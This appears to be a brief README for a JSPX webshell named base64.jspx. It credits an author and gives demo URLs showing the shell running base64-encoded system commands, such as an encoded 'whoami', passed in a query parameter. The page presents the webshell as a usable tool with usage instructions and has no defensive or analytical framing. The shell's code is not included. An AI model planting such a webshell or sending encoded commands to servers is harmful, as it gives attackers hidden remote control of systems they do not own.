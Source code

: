 Author:Ends  
site:<url>http://ends.cc/?p=165</url>

    demo:http://ends.cc/webshell/base64.jspx?str=base64(cmd)
         http://ends.cc/webshell/base64.jspx?str=d2hvYW1p (d2hvYW1p == base64(whoami))